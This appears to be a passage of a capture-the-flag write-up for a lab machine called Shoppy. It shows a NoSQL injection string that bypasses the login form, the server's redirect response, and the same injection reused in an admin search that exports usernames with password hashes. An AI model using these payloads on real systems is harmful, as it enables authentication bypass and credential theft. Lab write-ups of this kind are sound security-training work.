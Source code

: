 The initial example of `username=admin' || 1==1//&password=foobar` gave a 504, but the above worked and gave the following response!:

```
HTTP/1.1 302 Found
Server: nginx/1.23.1
Date: Sun, 25 Dec 2022 07:38:44 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 28
Connection: close
Location: /admin
Vary: Accept
Set-Cookie: connect.sid=s%3Aw1vzR-3zSPV98eF-hiBqdfT8SFB4-Omf.s03gQG0EK%2F4m8xUI8cB0EP5xTTqOk7SEFv9W16yAxJY; Path=/; HttpOnly

Found. Redirecting to /admin
```

After the redirect I ended up at /admin:

![](./2022-12-25-19-06-29-image.png)

The page looks fairly static, apart from the *Search for users* button which does a GET http://shoppy.htb/admin/search-users .



If i inject into this with `' || 1==1//` ,  I get to users in the download link that shows - http://shoppy.htb/exports/export-search.json:

```json
[
    {"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},
    {"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}
]
```
